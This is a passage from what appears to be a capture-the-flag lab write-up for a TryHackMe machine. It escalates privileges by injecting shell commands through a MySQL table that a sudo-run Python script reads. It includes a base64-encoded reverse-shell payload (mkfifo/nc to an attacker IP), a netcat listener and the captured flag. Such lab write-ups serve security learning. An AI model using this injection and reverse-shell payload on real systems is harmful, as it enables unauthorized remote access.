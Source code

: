 ```
```

## Escalation using mysql
I will use the library table to add my payload
```
Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.01 sec)

mysql> 
mysql> insert into dreams (dreamer,dream) values ("payload",";id");

```
Now when i reexecute
```
lucien@dreaming:~$ sudo -u death python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

payload +
uid=1001(death) gid=1001(death) groups=1001(death)
```
Now i will use `revshells.com` to get a shell. encode in base64

```
insert into dreams (dreamer,dream) values ("payload",";echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjQuMjYuMjE2IDEzMzggPi90bXAvZg==|base64 -d|bash");

└─$ sudo rlwrap nc -lvnp 1338
[sudo] password for bloman: 
listening on [any] 1338 ...
connect to [10.4.26.216] from (UNKNOWN) [10.10.13.4] 38340
$ id
uid=1001(death) gid=1001(death) groups=1001(death)
$ 
```
Got my shell as death
```
THM{1M_TH3R3_4_TH3M}

```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql
